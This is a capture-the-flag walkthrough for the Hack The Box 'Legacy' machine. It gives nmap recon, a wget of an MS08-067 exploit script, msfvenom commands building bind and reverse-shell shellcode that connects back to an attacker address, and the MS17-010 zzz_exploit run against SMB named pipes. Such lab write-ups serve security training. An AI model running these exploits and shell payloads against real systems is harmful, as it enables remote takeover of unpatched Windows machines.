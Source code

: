 # Legacy Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA legacy 10.10.10.4``
### AND 
``nmap --script vuln 10.10.10.4``

# ${{\color{purple}Initial Foothold}}\ $

``nmap --script vuln 10.10.10.4``

| smb-vuln-ms17-010:                                                                                                                                              
|   VULNERABLE:                                                                  
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)                                                                                     
|     State: VULNERABLE                 
|     IDs:  CVE:CVE-2017-0143                                                                                                                                     
|     Risk factor: HIGH                 
|       A critical remote code execution vulnerability exists in Microsoft SMBv1                                                                                  
|        servers (ms17-010).                                                                                                                                      
|                                                                                                                                                                            
| smb-vuln-ms08-067:                                                                                                                                              
|   VULNERABLE:                         
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)                                                                                       
|     State: VULNERABLE                 
|     IDs:  CVE:CVE-2008-4250                                                    
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,                                                            
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary                                                          
|           code via a crafted RPC request that triggers the overflow during path canonicalization.

# ${{\color{purple}Exploitation}}\ $

###  smb-vuln-ms08-067 

https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py

``wget https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py && chmod +x ms08-067.py``

### To know the OS and use the right option of the script you have to use this nmap command :


``nmap -p 139,445 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery 10.10.10.4``

### if the exact version doesn't come up, you have to use several options of the script like n°1,5,6,7 for windows XP

### We have to change the shellcode in the exploit :

``msfvenom -p windows/shell_bind_tcp RHOST=10.10.16.5 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows``

### OR 

``msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.5 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows``

![image](https://user-images.githubusercontent.com/123066149/219029218-35a86849-f829-4449-931e-7892b00803c6.png)

### Modify the shellcode in the exploit :

![image](https://user-images.githubusercontent.com/123066149/219029627-bc940cd2-985b-4f9b-9597-52f9d7a9e07e.png)

``python ms08-067.py 10.10.10.4 6 445``

![image](https://user-images.githubusercontent.com/123066149/219029991-898620c3-7091-45a9-8021-183f3b50bb38.png)

It's possible to execute a different shellcode like a bind shell for example :

``msfvenom -p windows/shell_bind_tcp RHOST=10.10.10.4 LPORT=60001 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows``

![image](https://user-images.githubusercontent.com/123066149/219030430-e9266aaa-2df1-41a7-ab0c-77bff585d1c3.png)

``python ms08-067.py 10.10.10.4 6 445``

![image](https://user-images.githubusercontent.com/123066149/219030681-b233041e-15ba-4652-b40b-1e58a4e505fc.png)

### smb-vuln-ms17-010

git clone https://github.com/3ndG4me/AutoBlue-MS17-010

### The machine is also vulnerable to smb-vuln-ms17-010
### For the exploitation I used the scripts : Autoblu because they are the only ones to be python3+ compatible
### I used eternal_checker to find the named pipes

``python eternal_checker.py -target-ip 10.10.10.4 -port 445 htb.local``

![image](https://user-images.githubusercontent.com/123066149/219063977-ac520366-70fd-412c-b3b6-48a5421032ec.png)

### And I used the zzz exploit because it's the only one compatible with old OS :

``python zzz_exploit.py -target-ip 10.10.10.4 -port 445 -pipe browser htb.local``

![image](https://user-images.githubusercontent.com/123066149/219064409-85575f53-df8a-4d9f-b441-8b2bdb9d8a18.png)

# ${{\color{purple}Privilege Escalation}}\ $

### No priv esc services running as system

# ${{\color{purple}Point of Improvement}}\ $

* Don't hesitate to reset the machines if the exploit doesn't work, after a bad attempt.
* The machine is no longer exploitable if there is a bad attempt.
* Named pipes are a way for running processes to communicate with each other with very little overhead.
* Pipes usually appear as files for other processes to attach to. 
